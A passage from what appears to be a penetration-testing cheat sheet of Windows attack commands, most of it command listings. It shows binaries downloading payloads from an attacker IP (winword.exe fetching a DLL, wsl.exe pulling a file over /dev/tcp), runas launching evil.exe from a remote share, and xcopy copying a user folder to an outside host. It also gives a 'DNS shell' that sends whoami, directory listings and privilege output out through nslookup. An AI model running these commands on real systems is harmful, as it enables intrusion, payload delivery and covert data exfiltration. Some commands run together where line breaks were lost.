 Update.exe

```
Update.exe --download [url to package]
```

Winword.exe

```
winword.exe "http://192.168.1.10/TeamsAddinLoader.dll"
```

Wsl.exe

```
wsl.exe --exec bash -c 'cat < /dev/tcp/192.168.1.10/54 > binary'
```

## Misc <a href="#misc" id="misc"></a>

```
cd cd C:\path\to\dir dir dir /a:h C:\path\to\dir dir /s /b time date shutdown /r /t 0 type <file> ​runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe" runas /netonly /user<DOMAIN>\<NAME> "cmd.exe" ::The password will be prompted​attrib +h file attrib -h file ​icacls <FILE_PATH> /t /e /p <USERNAME>:Ficacls <FILE_PATH> /e /r <USERNAME> ​xcopy /hievry C:\Users\security\.yawcam \\10.10.14.13\name\win​​dir /r more file.txt:ads.txt powershell (Get-Content file.txt -Stream ads.txt)
```

### Listen address ACLs <a href="#listen-address-acls" id="listen-address-acls"></a>

You can listen on [http://+:80/Temporary\_Listen\_Addresses/](http://+/Temporary\_Listen\_Addresses/) without being administrator.

### Manual DNS shell <a href="#manual-dns-shell" id="manual-dns-shell"></a>

**Attacker** (Kali) must use one of these 2 options:

```
sudo responder -I <iface> sudo tcpdump -i <iface> -A proto udp and dst port 53 and dst ip <KALI_IP> 
```

#### Victim <a href="#victim" id="victim"></a>

_**for /f tokens**_ _\*\*_technique: This allows us to execute commands, get the first X words of each line and send it through DNS to our server

```
for /f %a in ('whoami') do nslookup %a  #Get whoamifor /f "tokens=2" %a in ('echo word1 word2') do nslookup %a  #Get word2for /f "tokens=1,2,3" %a in ('dir /B C:\') do nslookup %a.%b.%c  #List folderfor /f "tokens=1,2,3" %a in ('dir /B "C:\Program Files (x86)"') do nslookup %a.%b.%c  #List that folderfor /f "tokens=1,2,3" %a in ('dir /B "C:\Progra~2"') do nslookup %a.%b.%c  #Same as last one#More complex commandsfor /f "tokens=1,2,3,4,5,6,7,8,9" %a in ('whoami /priv ^| findstr /i "enable"') do nslookup %a.%b.%c.%d.%e.%f.%g.%h.%i  #Same as last one
```
